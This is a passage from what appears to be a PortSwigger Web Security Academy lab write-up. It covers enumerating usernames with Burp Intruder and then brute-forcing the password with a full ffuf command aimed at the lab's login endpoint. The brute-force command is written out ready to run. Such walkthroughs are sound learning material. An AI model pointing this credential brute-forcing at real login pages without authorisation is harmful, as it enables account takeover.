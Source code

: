 Let's paste the [Candidate usernames](https://portswigger.net/web-security/authentication/auth-lab-usernames) into Burp's Intruder:

![picture 38](/assets/images/382a7965940c694ae036d8756a11c5ed811625c734dd9bb4073dd321273a7acd.png)  

We've found the user, which is `user`.

Let's bruteforce the password with `ffuf`

## Password Bruteforcing with `ffuf`

```
ffuf -w portswigger_passwords:FUZZ_PASS  -u "https://0a3e005e03bf0fbac09413a80059004c.web-security-academy.net/login" -d "username=user&password=FUZZ_PASS" --fs 3098
```
Mind that `--fs 3098` was added to filter out the requests which return `invalid password`. They all have same response size.
